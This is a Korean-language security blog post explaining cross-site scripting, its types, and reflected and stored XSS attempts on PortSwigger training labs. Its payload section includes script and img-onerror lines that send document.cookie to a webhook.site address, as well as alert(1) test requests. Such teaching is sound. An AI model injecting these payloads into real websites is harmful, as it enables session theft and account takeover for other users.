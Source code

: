 ```yaml
---
title: "XSS(Cross Site Script)"
date: 2022-01-26 +0900
img_path: /assets/img/posts/xss_cross_site_script
categories: [Hacking, Web]
tags: ['web', 'xss', 'client side attack', '2022']
---
```

## XSS란?

XSS는 **Cross Site Script**의 약어로써 공격자가 웹 리소스에 **악성 스크립트를 삽입**하는 공격입니다.

웹 이용자는 해당 스크립트를 실행시키면서 계정의 세션 정보를 탈취 당할 수 있고, 공격자는 세션정보를 통해 다른 이용자의 계정으로 임의의 기능을 수행할 수 있습니다.

### XSS는 언제 발생되는가?

- 사용자의 입력한 내용을 그대로 출력하는 기능에서 주로 발생합니다.
- HTML, CSS, JS와 같은 코드가 포함된 게시물을 조회할 경우 공격자가 입력한 스크립트가 실행될 수 있습니다.

### XSS 종류

| 종류 | 설명 |
| :--- | :--- |
| Reflected XSS | 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS |
| Stored XSS | 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS |
| Dom-based XSS | 악성 스크립트가 DOM 내부의 동작을 통해서 실행되는 XSS |
| Universal XSS | 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS |

## XSS 스크립트

스크립트를 삽입할 수 만 있다면 JS로 원하는 기능들을 수행할 수 있습니다(CORS, SOP 같은 mitigation으로 인해서 실행에 제약이 걸리는 경우를 제외하면…).

아래와 같이 `alert(1)` 을 이용해 창을 띄워서 XSS가 가능한지 테스트를 하거나, cookie를 탈취하는 스크립트를 주로 사용합니다.

또한 스크립트를 작성할 때 `<script>` 태그를 사용해주기도 하고 `onerror`, `onload` 와 같은 Event Listner를 통해서 JS 코드를 실행시키기도 합니다.



```jsx
<script>alert(1)</script>
<script>location.href='https://webhook.site/.../?x='+document.cookie</script>
<img src=x onerror="location.href='https://webhook.site/.../?x='+document.cookie">
...
```

> **위의 예시 외에도 여러가지 방법으로 스크립트를 작성할 수 있고, 필터링이 되었을 때 우회하는 방법도 존재합니다.**
{: .prompt-info }

## Reflected XSS

- 서버가 악성 스크립트가 담긴 요청을 출력할 때 발생합니다.
- 검색창을 통해 스크립트를 포함해서 검색하는 방식이 있습니다.
- Click Jacking 또는 Open Redirect 등 다른 취약점과 연계해서 사용됩니다.

다음은 PostSwigger에서 만든 [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded) 공격 실습 사이트에서 XSS 공격을 시도한 payload와 성공 화면입니다.

```
GET /?search=<script>alert(1)</script> HTTP/2
```

![Untitled.png](Untitled.png)
_Reflect XSS로 alert창을 띄운 화면_

## Stored XSS

- 서버에 데이터베이스 또는 파일 등으로 저장된 컨텐츠를 조회할 때 발생하게 됩니다.
- 주로 게시글 또는 댓글을 업로드할 때 악성 스크립트를 포함시키는 방식이 있습니다.

다음은 PostSwigger에서 만든 [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded) 공격 실습 사이트에서 XSS 공격을 시도한 payload와 성공 화면입니다.

```
POST /post/comment HTTP/2
Host: 0a6100980435d4358088942100db000f.web-security-academy.net
...

Id=5&comment=<img src=x onerror=alert(1)>&name=asdf&email=asdf%40asdf.adsf&website=
```

![Untitled%201.png](Untitled%201.png)
_사용자가 입력한 스크립트가 그대로 삽입된 것을 볼 수 있다_

![Untitled%202.png](Untitled%202.png)
_Stored XSS로 alert창을 띄운 화면_